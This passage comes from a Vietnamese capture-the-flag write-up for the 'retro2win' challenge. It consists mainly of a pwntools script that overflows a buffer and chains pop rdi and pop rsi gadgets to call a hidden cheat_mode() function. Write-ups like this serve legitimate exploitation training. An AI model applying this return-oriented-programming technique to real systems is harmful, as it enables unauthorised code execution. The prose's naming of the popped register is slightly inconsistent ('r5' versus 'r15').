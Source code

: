 Với nhiêu đó thông tin, chúng ta sẽ bắt đầu viết exploit cho bài này

## Exploit

Vì sau pop rsi sẽ có thêm **pop r5**, nó vẫn sẽ ổn nếu dùng gadget này và **r5** không thành vấn đề đối với chung ta. Nhưng chúng ta vẫn cần phải điền vào ngăn xếp để nó không đưa **cheat\_mode()** vào **r15** ta chỉ cần thay thế nó với **dummy\_value**

```python
#!/usr/bin/python3

from pwn import *

# context.log_level = 'debug' 
context.terminal = ['tmux', 'splitw', '-v', '-p', '90']
exe = context.binary = ELF('./retro2win', checksec=False)


# Shorthanding functions for input/output
info = lambda msg: log.info(msg)
s = lambda data: p.send(data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
r = lambda: p.recv
rl = lambda: p.recvline()
rall = lambda: p.recvall()

# GDB scripts for debugging
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

    b *0x400829
    c
''')

p = remote('retro2win.ctf.intigriti.io',1338) if args.REMOTE else process(argv=[exe.path], aslr=False)
if args.GDB: 
    GDB()
    input()

# ===========================================================
#                          EXPLOIT 
# ===========================================================



pop_rdi = 0x4009b3
pop_rsi_r5 = 0x4009b1
cheat_mode = 0x400736
dummy_value = 0x4242424242424242

pay = b'A' * 16   # fill in buffer
pay += b'B' * 8   # overwrite saved rbp
pay += p64(pop_rdi) + p64(0x2323232323232323)
pay += p64(pop_rsi_r5) + p64(0x4242424242424242) + p64(dummy_value)
pay += p64(cheat_mode)

```